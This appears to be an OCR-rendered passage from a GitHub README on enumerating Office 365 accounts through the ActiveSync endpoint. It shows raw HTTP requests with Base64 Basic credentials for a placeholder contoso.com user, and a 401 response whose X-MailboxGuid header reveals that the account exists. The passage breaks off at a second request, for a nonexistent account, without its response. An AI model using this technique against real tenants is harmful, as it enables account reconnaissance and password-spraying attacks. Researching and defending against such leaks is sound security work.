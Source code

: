 The request below contains the following Base64 encoded credentials in the Authorization header: valid_user@contoso.com:Password1

```
OPTIONS /Microsoft-Server-ActiveSync HTTP/1.1
Host: outlook.office365.com
Connection: close
MS-ASProtocolVersion: 14.0
Content-Length: 0
Authorization: Basic dmFsaWRfdXNlckBjb250b3NvLmNvbTpQYXNzd29yZDE=
```


This elicits the following response ("401 Unauthorized") with the `X-MailboxGuid` header set, indicating that the username is valid but the password is not:

```
Date: Fri, 31 Jan 2020 13:02:46 GMT
Connection: close
HTTP/1.1 401 Unauthorized
Content-Length: 1293
Content-Type: text/html
Server: Microsoft-IIS/10.0
request-id: d494a4bc-3867-436a-93ef-737f9e0522eb
X-CalculatedBETarget: AM0PR09MB2882.eurprd09.prod.outlook.com
X-BackEndHttpStatus: 401
X-RUM-Validated: 1
X-MailboxGuid: aadaf467-cd08-4a23-909b-9702eca5b845 <--- This header leaks the account status (existing)
X-DiagInfo: AM0PR09MB2882
X-BEServer: AM0PR09MB2882
X-Proxy-RoutingCorrectness: 1
X-Proxy-BackendServerStatus: 401
X-Powered-By: ASP.NET
X-FEServer: AM0PR06CA0096
WWW-Authenticate: Basic Realm="",Negotiate
Date: Fri, 31 Jan 2020 13:02:46 GMT
Connection: close

--snip--
```

#### Nonexistent Account

The request below contains the following Base64 encoded credentials in the Authorization header: invalid_user@contoso.com:Password1

```
OPTIONS /Microsoft-Server-ActiveSync HTTP/1.1
Host: outlook.office365.com
Connection: close
MS-ASProtocolVersion: 14.0
Content-Length: 2
Authorization: Basic aW52YWxpZF91c2VyQGNvbnRvc28uY29tOlBhc3N3b3JkMQ==
```
